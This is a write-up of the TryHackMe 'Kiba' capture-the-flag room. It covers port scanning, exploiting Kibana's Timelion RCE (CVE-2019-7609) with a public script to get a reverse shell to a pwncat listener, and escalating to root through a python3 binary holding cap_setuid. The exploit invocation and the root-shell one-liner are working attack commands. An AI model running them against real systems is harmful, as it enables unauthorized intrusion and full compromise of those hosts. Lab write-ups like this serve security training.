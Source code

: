 ```yaml
---
layout: post
title: Kiba Writeup
date: 2020-09-01 00:00:00 +5:30
categories: [TryHackMe, Easy]
tags: [tryhackme, anonymous-ftp, gtfobins] # add tag
---
```


## Description:

The Following Post is writeup of Kiba room of tryhackme <https://tryhackme.com/room/kiba>

|Machine|Details
|:---|:--
|OS | Linux
|Rating | Easy
|Creator | stuxnet

## Summary

  The Room have 3 open ports 22,80 and 5601. We can notice an open kibana instance in 5601. Now on searching about
  the version of kibana we got if have rce. Exploiting the rce and get a reverse shell. For PrivEsc it have a
  setuid capability running that will spawn a root shell.

## Walkthrough

### Enumeration

Let's start with nmap scan.

```bash
 ─[argenestel@parrot]─[~/Desktop/kiba]
└──╼ $nmap -sC -sV -oA nmap/kiba -v 10.10.166.67
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-29 14:42 IST
NSE: Loaded 151 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 14:42
Completed NSE at 14:42, 0.00s elapsed
Initiating NSE at 14:42
Completed NSE at 14:42, 0.00s elapsed
Initiating NSE at 14:42
Completed NSE at 14:42, 0.00s elapsed
Initiating Ping Scan at 14:42
Scanning 10.10.166.67 [2 ports]
Completed Ping Scan at 14:42, 0.43s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 14:42
Completed Parallel DNS resolution of 1 host. at 14:42, 0.02s elapsed
Initiating Connect Scan at 14:42
Scanning 10.10.166.67 [1000 ports]
Discovered open port 22/tcp on 10.10.166.67
Discovered open port 80/tcp on 10.10.166.67
Increasing send delay for 10.10.166.67 from 0 to 5 due to 65 out of 216 dropped probes since last increase.
Increasing send delay for 10.10.166.67 from 5 to 10 due to max_successful_tryno increase to 4
Increasing send delay for 10.10.166.67 from 10 to 20 due to max_successful_tryno increase to 5
Increasing send delay for 10.10.166.67 from 20 to 40 due to max_successful_tryno increase to 6
Completed Connect Scan at 14:43, 42.87s elapsed (1000 total ports)
Initiating Service scan at 14:43
Scanning 2 services on 10.10.166.67
Completed Service scan at 14:43, 6.79s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.166.67.
Initiating NSE at 14:43
Completed NSE at 14:43, 8.85s elapsed
Initiating NSE at 14:43
Completed NSE at 14:43, 1.25s elapsed
Initiating NSE at 14:43
Completed NSE at 14:43, 0.00s elapsed
Nmap scan report for 10.10.166.67
Host is up (0.30s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 9d:f8:d1:57:13:24:81:b6:18:5d:04:8e:d2:38:4f:90 (RSA)
|   256 e1:e6:7a:a1:a1:1c:be:03:d2:4e:27:1b:0d:0a:ec:b1 (ECDSA)
|_  256 2a:ba:e5:c5:fb:51:38:17:45:e7:b1:54:ca:a1:a3:fc (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
ah that's 1000 port let's see masscan

```bash
┌─[✗]─[argenestel@parrot]─[~/Desktop/argenestel.github.io]
└──╼ $sudo masscan -i tun0 -p0-10000 10.10.34.204

Starting masscan 1.0.5 (http://bit.ly/14GZzcT) at 2020-09-01 21:34:21 GMT
 -- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [10001 ports/host]
Discovered open port 5601/tcp on 10.10.34.204                                  
Discovered open port 80/tcp on 10.10.34.204                                    
Discovered open port 22/tcp on 10.10.34.204
```

Let's start with kibana.
#### kibana

![kibana](/assets/img/kiba/openkibana.png)

We can see an open kibana instance.<br />
The version is 5.4.1 might be old let's see for any exploits.

![timelion](/assets/img/kiba/kibanatimelion.png)

There is a remote code execution in kibana at timelion function we can search about it.

<https://www.tenable.com/blog/cve-2019-7609-exploit-script-available-for-kibana-remote-code-execution-vulnerability>

### Exploitation

<https://github.com/LandGrey/CVE-2019-7609/>

```bash
└──╼ $./CVE-2019-7609-kibana-rce.py -u http://10.10.166.67:5601 -host 10.9.124.57 -port 4444 --shell
[+] http://10.10.166.67:5601 maybe exists CVE-2019-7609 (kibana < 6.6.1 RCE) vulnerability
[+] reverse shell completely! please check session on: 10.9.124.57:4444

and

┌─[argenestel@parrot]─[~/Downloads]
└──╼ $pwncat --listen --port 4444
[15:55:23] received connection from 10.10.166.67:39932                                                                  connect.py:148
[15:55:26] new host w/ hash be486dbcf9a5edbfffd09b3f51163d7b                                                             victim.py:329
[15:55:43] pwncat running in /bin/bash                                                                                   victim.py:362
[15:55:52] pwncat is ready 🐈                                                                                            victim.py:772


(remote) kiba@ubuntu:/$
```

gotcha

### PrivEsc

```bash

[+] Capabilities
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#capabilities
Current capabilities:
CapInh: 0000000000000000
CapPrm: 0000000000000000
CapEff: 0000000000000000
CapBnd: 0000003fffffffff
CapAmb: 0000000000000000
Shell capabilities:
CapInh: 0000000000000000
CapPrm: 0000000000000000
CapEff: 0000000000000000
CapBnd: 0000003fffffffff
CapAmb: 0000000000000000
Files with capabilities:
/home/kiba/.hackmeplease/python3 = cap_setuid+ep
/usr/bin/mtr = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/systemd-detect-virt = cap_dac_override,cap_sys_ptrace+ep

so we got root


(remote) kiba@ubuntu:/tmp$ /home/kiba/.hackmeplease/python3 -c 'import os; os.setuid(0); os.system("/bin/bash");'
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@ubuntu:/tmp#
```

Rooted Kiba :)
